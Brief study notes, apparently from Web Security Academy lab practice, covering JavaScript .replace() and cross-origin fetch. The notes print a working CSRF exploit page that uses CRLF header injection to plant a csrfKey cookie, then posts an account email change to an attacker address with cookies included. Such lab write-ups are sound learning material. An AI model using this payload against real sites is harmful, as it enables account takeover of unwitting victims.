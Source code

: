 ## Javascript `.replace()` function

When a string value is supplied into the first argument of the .replace function, only the first instance is replaced. For all instances to be replaced, a regex expression should be used instead. 

## Cross Origin Fetch

<html>

<body>
   <form action="https://0a7f00fb032c60acc081262c002f0020.web-security-academy.net/my-account/change-email"
        method="POST">
        <input type="hidden" name="email" value="pwned@devil-user.net" />
        <input required type=hidden name=csrf value=UQD7XpBP9tbqqj6cClHK2PFJdPLDPa59>
    </form>
    <script>
        fetch("https://0a7f00fb032c60acc081262c002f0020.web-security-academy.net/?search=t%3b%0d%0aSet-Cookie%3a%20csrfKey%3dxgOkcu96eiZT19WRsMmvwQwLrTposCsA%3b%20SameSite%3dNone", {
            mode:"no-cors",
            credentials: "include"
        }).then(function(response) {
            fetch('https://0a7f00fb032c60acc081262c002f0020.web-security-academy.net/my-account/change-email', {
                method: 'POST',
                mode:"no-cors",
                credentials: "include",
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded',
                },
                body: 'email=pwned%40evil-user.net&csrf=UQD7XpBP9tbqqj6cClHK2PFJdPLDPa59'
            }).then(function(response) {
                console.log(response);
            });
        });
    </script>
</body>

</html>
To allow Fetch to perform cross origin requests while still including cookies in the request, you must specify `ceredentials: 'include'`. For instance, 

```js
fetch('https://example.com:1234/users', {
  credentials: 'include'
})
```

This is necessary to perform attacks like CSRF where it requires your attacker site to perform cross-origin requests using the victim's cookies. This also applies to fetch requests used to set cookies on a different origin. 

